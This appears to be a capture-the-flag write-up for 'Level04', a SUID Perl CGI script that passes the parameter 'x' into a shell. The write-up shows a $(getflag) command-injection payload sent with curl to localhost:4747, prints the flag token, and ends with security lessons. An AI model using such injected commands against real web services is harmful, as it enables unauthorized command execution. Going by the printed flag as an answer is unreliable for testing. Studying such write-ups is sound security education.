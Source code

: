 # Level04 - Web Command Injection Exploit
## Challenge Overview
Level04 presents us with a Perl script (level04.pl) that:

- Has SUID (Set User ID) permissions set to flag04
- Functions as a simple web server script
- Is vulnerable to command injection

## File Analysis
### Permissions
```bash
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```
### Key observations:

- The s in the permissions indicates SUID bit is set
- The script runs with flag04 privileges when executed
- It's owned by flag04 but executable by level04 users

## Script Content Analysis
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
### Understanding the Script
The script:

- Is a web application: Running on localhost:4747 (based on the comment)
- Uses CGI: CGI (Common Gateway Interface) is a protocol for web servers to execute scripts
- Takes user input: Uses param("x") to get a parameter named "x" from HTTP requests
- Executes shell commands: The backticks (`) in Perl execute shell commands
- Has no input validation: Takes user input and directly passes it to a shell command

### Vulnerability Explanation
The vulnerability is a classic command injection:

- The script takes a user parameter ("x")
- Passes that parameter directly to a shell command (echo $y 2>&1)
- Without any sanitization or validation
- And runs this command with elevated flag04 privileges

## Exploitation Steps

### 1. Identify the web service
The comment # localhost:4747 indicates the script runs as a web server on port 4747.

### 2. Craft a command injection payload
Since the script runs shell commands with user input, we can use shell syntax to inject our own commands:
```bash
$(getflag)
```

This will make the script execute:
```bash
echo $(getflag) 2>&1
```

The $() syntax tells the shell to execute getflag and substitute its output.

### 3. Send the exploit request
Using curl to send the HTTP request with our payload:
```bash
curl "http://localhost:4747/level04.pl?x=\$(getflag)"
```

### 4. Result
```plaintext
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Why This Works

- The script runs as a web server listening on port 4747
- It takes the "x" parameter and passes it to a shell command
- When we inject $(getflag), the shell executes getflag
- Because the script has SUID permissions, getflag runs with flag04 privileges
- The output of getflag is returned in the HTTP response

## Security Lessons

- **Input Validation**: Never trust user input; always validate and sanitize it
- **Command Injection**: Avoid passing user input directly to shell commands
- **SUID Scripts**: Perl (and other script) interpreters often ignore SUID bits for security reasons, but in this case, the command injection still runs with elevated privileges
- **Web Security**: Web applications require special attention to security as they're directly accessible to users

## Complete Solution

```bash
# Connect to the web server and inject the getflag command
curl "http://localhost:4747/level04.pl?x=\$(getflag)"

# Expected output: Check flag.Here is your token: ne2searoevaevoem4ov4ar8ap
```
